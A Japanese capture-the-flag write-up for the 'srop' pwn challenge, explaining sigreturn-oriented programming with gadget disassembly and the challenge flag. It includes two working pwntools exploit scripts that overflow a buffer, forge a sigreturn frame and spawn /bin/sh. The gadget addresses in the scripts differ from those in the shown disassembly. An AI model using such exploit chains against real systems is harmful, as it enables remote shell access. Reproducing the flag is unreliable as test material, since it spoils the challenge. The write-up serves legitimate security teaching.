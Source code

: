 # srop

## 問題文

```
nc srop.pwn.wanictf.org 9006
```

+ sigreturnを用いたROPでシェルを実行してください。
+ sigreturnを使うとスタックの値でレジスタを書き換えることができます。

### ヒント

+ https://elixir.bootlin.com/linux/latest/source/arch/x86/include/uapi/asm/sigcontext.h#L325
+ https://docs.pwntools.com/en/latest/rop/srop.html


## FLAG

`FLAG{0v3rwr173_r361573r5_45_y0u_l1k3}`

## 解法

Sigreturnが呼ばれるとスタックのある領域の値がレジスターに入ります。
コードで必要なgadgetは与えられています。これをどう組むかが問題です。
先ずは必要なgadgetの位置から確認しましょう。

```
0000000000401156 <call_syscall>:
  401156:       f3 0f 1e fa             endbr64
  40115a:       55                      push   rbp
  40115b:       48 89 e5                mov    rbp,rsp
  40115e:       0f 05                   syscall
  401160:       c3                      ret
  401161:       90                      nop
  401162:       5d                      pop    rbp
  401163:       c3                      ret

0000000000401164 <set_rax>:
  401164:       f3 0f 1e fa             endbr64
  401168:       55                      push   rbp
  401169:       48 89 e5                mov    rbp,rsp
  40116c:       48 c7 c0 0f 00 00 00    mov    rax,0xf
  401173:       c3                      ret
  401174:       90                      nop
  401175:       5d                      pop    rbp
  401176:       c3                      ret

```

0x40115e -> sycall; ret;
0x40116c -> mov rax,0xf; ret;

順番は以下のようになります。
1. スタックに最終的にはシェルが実行できるように値を入れる。
2. main関数のreturnを040116cにする。ー＞raxが15になる。
3. その次に0x40115eにretさせる。 ー＞sigreturnが呼ばれる。　ー＞シェルが実行できるようにレジスターの値を上書きされる。
4. シェルが実行される。

シェルを実行するためにはraxを58(0x3b)にしてrdiに"/bin/sh"が書かれているアドレスを与えて必要ない部分は0にした状態でのsyscallが必要です。
レジスターを上書きするとき、ripをsyscallにすることで簡単にできます。

実行したらbuffの位置が表示されるのでそこに"/bin/sh"を入れてそのアドレスを使えばrdiは解決です。
次にreturnの値を書き換えてmainが終わったらraxを15にしてsyscallするようにします。
そこからそのsigreturnでスタックのどこからがレジスターに入るかを確認してレジスターに書きたい値の入力位置とあわせます。

あとはsigcontextの構造に合わせて必要な値を並べるだけです。
buffの最初に"/bin/sh\00"を入れて
buffの値は最初から出力されるようにしたので、そのまま使いましょう。

この部分はpwntoolsのSigreturnFrameを使う方法もあります。
https://docs.pwntools.com/en/latest/rop/srop.html

Solution 1 : w/o pwntools SigreturnFrame
```
from pwn import *

set_rax = p64(0x40118c)
syscall = p64(0x40117e)

#pc = process("./chall")
pc = connect('localhost',9101)
buff=pc.recvuntil('\n')[7:-1]
buff=int(buff,16)
print('@buff : '+hex(buff))


payload = b"/bin/sh\x00"
payload+= b'A'*64
payload+=set_rax
payload+=syscall

payload+=p64(0)*5 #user_context

payload+=p64(0)*8 #r8~r15
payload+=p64(buff)#rdi
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0x3b)#rax
payload+=p64(0)
payload+=p64(0)
payload+=syscall #eip
payload+=p64(0) #eflags
payload+=p64(0x33) #cs
payload+=p64(0) #gs
payload+=p64(0) #fs
payload+=p64(0) #ss
payload+=p64(0)*7

print(pc.recvuntil('\n'))
pc.send(payload)
pc.interactive()
```

Solution 2 : w pwntools SigreturnFrame
```
from pwn import *

set_rax = p64(0x40118c)
syscall = p64(0x40117e)

#pc = process("./chall")
pc = connect('localhost',9101)
buff=pc.recvuntil('\n')[7:-1]
buff=int(buff,16)
print('@buff : '+hex(buff))

frame=SigreturnFrame(arch="amd64")
frame.rax=0x3b
frame.rdi=buff
frame.rip=u64(syscall)

payload = b"/bin/sh\x00"
payload+= b'A'*64
payload+=set_rax
payload+=syscall
payload+=bytes(frame) #str(frame) for python2

print(pc.recvuntil('\n'))
#gdb.attach(pc,gdbscript="break *0x4011a3")
pc.send(payload)
pc.interactive()
```
